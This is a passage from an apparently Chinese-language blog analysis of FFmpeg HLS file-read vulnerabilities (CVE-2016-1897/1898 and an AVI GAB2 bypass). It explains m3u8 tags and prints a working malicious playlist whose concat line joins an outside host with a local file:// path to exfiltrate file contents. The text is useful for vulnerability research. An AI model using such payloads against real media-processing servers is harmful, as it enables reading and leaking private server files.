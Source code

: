 或者：

	#EXTM3U
	#EXT-X-MEDIA-SEQUENCE:0
	#EXTINF:10.0,
	test.ts   # 也可以是真正的视频资源
	#EXT-X-ENDLIST

**注释**

	#EXTM3U:  每个M3U文件第一行必须是这个tag。
	#EXTINF:指定每个媒体段(ts)的持续时间，这个仅对其后面的URI有效，每两个媒体段URI间被这个tag分隔开，其格式如下：
		#EXTINF:<duration>,<title>  ：duration表示持续的时间（秒）”Durations MUST be integers if the protocol version of the Playlist file is less than 3“，否则可以是浮点数。
	#EXT-X-MEDIA-SEQUENCE：每一个media URI 在 PlayList中只有唯一的序号，相邻之间序号+1。
        #EXT-X-MEDIA-SEQUENCE:<number>：一个media URI并不是必须要包含的，如果没有，默认为0。
 	#EXT-X-ENDLIST：表示PlayList的末尾了，它可以在PlayList中任意位置出现，但是只能出现一个，格式如下：
        #EXT-X-ENDLIST

## 4&emsp;漏洞分析 ##

该漏洞主要还是利用了去年的 CVE-2016-1897 和 CVE-2016-1898，一个 SSRF 和一个任意文件读取漏洞，其中 SSRF 用到的就是 m3u8 可以访问获取远程资源的特性。

**CVE-2016-1897**

![ffmpeg]({{ '/styles/images/ffmpeg/3.png' | prepend: site.baseurl  }})

**CVE-2016-1898**

因为FFmpeg扩展性极强，其中支持一个 Physical concatenation protocol concat: 可以把多个 url 流合并访问资源：

	concat:URL1|URL2|…|URLN

结合 SSRF ，我们可以把 file:// 读到的内容发送出来。

	#EXTM3U
	#EXT-X-TARGETDURATION:6
	#EXTINF:10.0,
	concat:http://rr.sb/poc/header.m3u8|file:///tmp/vuln  
	#EXT-X-ENDLIST

![ffmpeg]({{ '/styles/images/ffmpeg/4.png' | prepend: site.baseurl  }})

之后官方在2.8.5版本修复了该漏洞。

而这个漏洞则是绕过了这次修复，继续利用这两个漏洞达到任意文件读取。

在上个月的 phdays conference 里，通过视频格式的一个 trick bypass 了厂商对 SSRF 的封堵。 

奇怪的视频格式标准

在 AVI 视频中，有一个数据块可以定义字幕，叫做 GAB2 ，位置于 AVI header 中，有趣的是 m3u8 可以插入到 avi 文件中，且 FFmpeg 依旧会对有文件头 `#EXTM3U` 的 AVi 视频做 HLS 处理。

利用思路如下： 将 m3u8 嵌入到带有 GAB2 的AVI视频中，对文件格式检查进行 bypass 。 因为之前说过，m3u8 并不是真正的视频资源，所以如果要播放，必须还要在 m3u8 中嵌入一个可播放的视频资源，其中有一个古老的媒体格式 XBin，这个媒体格式具备基本显示图片，文本的功能，体积非常小，最重要的是，这个媒体格式可编程，如果嵌入到 m3u8 中，将目标文件作为对象，用 xbin 绘制成为字符，就可以作为合法可播放的视频文件观看了，所以依次嵌套后，文件内容大致为：
